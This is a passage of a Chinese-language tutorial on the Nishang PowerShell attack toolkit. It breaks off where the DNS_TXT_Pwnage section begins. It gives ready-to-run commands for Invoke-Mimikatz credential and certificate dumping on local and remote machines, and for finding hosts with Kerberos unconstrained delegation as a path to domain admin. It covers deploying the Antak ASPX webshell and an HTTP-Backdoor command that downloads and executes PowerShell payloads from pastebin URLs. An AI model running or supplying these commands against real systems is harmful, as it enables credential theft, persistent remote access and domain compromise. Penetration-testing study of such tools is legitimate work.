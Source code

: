 #### Invoke-Mimikatz
Mimikatz大家都非常熟悉了，就不再介绍了
执行方式：

```powershell
Invoke-Mimikatz -DumpCerts //Dump出本机的凭证信息
Invoke-Mimikatz -DumpCreds -ComputerName @("computer1", "computer2") //Dump出远程两台计算机的凭证信息
Invoke-Mimikatz -Command "privilege::debug exit" -ComputerName "computer1" //在远程一台机器上运行Mimikatz并执行"privilege::debug exit"
```


### 1.域相关脚本
#### Get-Unconstrained
查找域内开启了Kerberos Unconstrained Delegation的机器。
执行方式：

```powershell
PS > Get-Unconstrained //返回开启的计算机名
PS > Get-Unconstrained -Details  //返回更详细的信息
```

关于"通过Kerberos Unconstrained Delegation获取到域管理员"：
http://www.freebuf.com/articles/terminal/98530.html

### 2.Antak Webshell
#### Antak
一个ASPX的Webshell，通过这个Webshell可以编码、执行脚本，上传、下载文件。
![Antak_UI][7]
执行方式：

```powershell
上传Webshell后把它当成一个正常的Powershell执行窗口来使用
上传和下载文件，只需要填写好对应路径点击上传、下载按钮即可
```
关于Antak Webshell的更多介绍，请参考：
http://www.labofapenetrationtester.com/2014/06/introducing-antak.html

### 3.后门
#### HTTP-Backdoor
HTTP-Backdoor可以帮助我们在目标机器上下载和执行Powershell脚本
执行方式：

```powershell
PS > HTTP-Backdoor -CheckURL http://pastebin.com/raw.php?i=jqP2vJ3x -PayloadURL http://pastebin.com/raw.php?i=Zhyf8rwh -Arguments Get-Information -MagicString start123 -StopString stopthis
```
下面解释下几个比较重要的参数：
* CheckURL 给出一个URL地址，如果存在我们MagicString中的值就去执行Payload - 下载运行我们的脚本
* PayloadURL 这个参数给出我们需要下载的Powershell脚本的地址
* Arguments 这个参数指定我们要执行的函数
* StopString 这个参数也会去看是否存在我们CheckURL返回的字符串，如果存在就会停止执行
#### DNS_TXT_Pwnage
利用DNS隧道来进行信息传输、通信的小技巧已经不少见了。在Nishang中也集成了一个通过DNS TXT来接收命令或者脚本的后门脚本。使用DNS_TXT_Pwnage这个脚本，我们一般需要配合Utility下的Out-DnsTxt使用。
所以这里首先说下Out-DnsTxt的使用：
